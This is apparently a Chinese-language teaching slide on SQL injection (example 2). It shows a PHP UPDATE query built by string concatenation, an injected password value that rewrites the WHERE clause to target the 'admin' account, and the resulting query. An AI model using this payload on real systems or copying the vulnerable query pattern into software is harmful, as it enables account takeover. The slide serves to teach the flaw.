

# SQL注入
示例2
$query = “UPDATE user SET password='MD5($password)', homepage='$homepage' WHERE id='$id‘”;
$password = “mypass)' WHERE username='admin'# “ ;
$query = “UPDATE user SET password='MD5(mypass)' WHERE username='admin'# )', homepage='$homepage' WHERE id='$id‘”;